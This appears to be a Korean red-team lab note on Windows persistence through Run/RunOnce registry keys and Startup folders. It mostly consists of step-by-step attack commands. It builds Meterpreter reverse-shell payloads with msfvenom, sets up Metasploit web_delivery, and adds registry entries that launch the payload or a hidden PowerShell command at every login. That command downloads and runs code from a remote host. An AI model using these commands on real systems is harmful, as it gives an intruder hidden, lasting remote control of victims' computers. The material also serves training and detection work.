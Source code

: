 # 레지스트리 / 스타트업 폴더

### 레지스트리

윈도우의 레지스트리 키 들 중 다음의 키 들은 유저가 로그인 할 시 자동적으로 특정 프로그램/명령어를 실행한다.

1. `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
3. `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
4. `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 실습

레지스트리 키에 원하는 프로그램을 등록시키거나 `cmd.exe /c` 혹은 `powershell -enc -command` 등의 플래그를 이용해 명령어를 실행시키면 된다. 레지스트리 키 추가는 다음의 명령어를 이용한다.

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경로>
```

#### 레지스트리 + 온디스크 미터프리터

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 리버스쉘을 c:\wow 에 옮기기 

# 3. 타겟의 레지스트리 키 변경 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경>

PS C:\Users\Administrator.CHOI> REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v safestartup /t REG_SZ /d C:\wow\rev.exe
The operation completed successfully.

# 4. 로그오프 후 다시 로그인 -> 리버스쉘 확인 
```

![](<../.gitbook/assets/image (16) (1).png>)

#### 레지스트리 + 인메모리 파워쉘 미터프리터

* 파워쉘을 이용한 인메모리 실행을 위해서는 `iex (new-object net.webclient).downloadstring()` 을 이용한다.
* 레지스트리 키의 길이 제한은 255자이기 때문에 이에 유의해 레지스트리 키를 생성한다.

```
# 1. 메타스플로잇 설정 
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
exploit

# 2. 타겟의 레지스트리 키 변경 - 메타스플로잇의 파워쉘 원라이너 사용 
# #1 번에서 나온 "[*] Using URL: http://192.168.40.182:8080/XXzjZN0FVh" 사용 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d "<프로그램-경로>"

REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v pshstartup /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden iex(New-Object net.webclient).DownloadString('http://192.168.40.182:8080/XXzjZN0FVh')"

# 3. 로그오프 -> 로그인 후 리버스쉘 확인 
```

![](<../.gitbook/assets/image (5) (1) (2) (2).png>)

### 스타트업 폴더

스타트업 폴더는 유저가 로그인 해 세션을 구축할 시 폴더 안의 프로그램을 자동으로 실행시킨다. 공격자들은 스타트업 폴더를 이용해 매번 유저가 로그인 할 때마다 비컨/리버스쉘을 받는 등의 지속성 공격을 실행할 수 있다.

스타트업 폴더의 경로는 다음과 같다:

* `유저: C:\Users\<유저>\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp`
* `시스템: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

로컬 관리자 권한을 갖고 있다면 시스템 스타트업 폴더를 이용할 수 있다. 여기서 실행되는 프로세스들은 어떤 유저가 로그인 하던간에 실행된다.

### 실습

미터프리터를 생성한 뒤, 타겟 호스트의 스타트업 폴더에 미터프리터 파일을 옮긴다. 그 후 로그오프 -> 로그인을 해서 리버스쉘이 도착하는지 확인한다.

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 미터프리터 타겟 호스트로 전송 

# 3. 타겟 호스트에서 미터프리터를 스타트업 폴더로 복사 
cp <미터프리터 경로> 'C:\Users\<유저-이름>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'

4. 로그오프 -> 로그인 후 리버스쉘 확인 
```

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/startup-folder-persistence-via-unsigned-process.html" %}

{% embed url="https://labs.withsecure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-2/" %}

{% embed url="https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder" %}

<details>

<summary>추가 리서치 - todo</summary>

```
다음 레지스트리 키 들은 스타트업 폴더의 경로를 바꿀 수 있다. 윈도우의 기본 스타트업 폴더 경로가 아니라 다른 폴더 경로를 스타트업 폴더로 바꾸고 싶을 때 이 레지스트리에 값들을 추가한다.
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

</details>
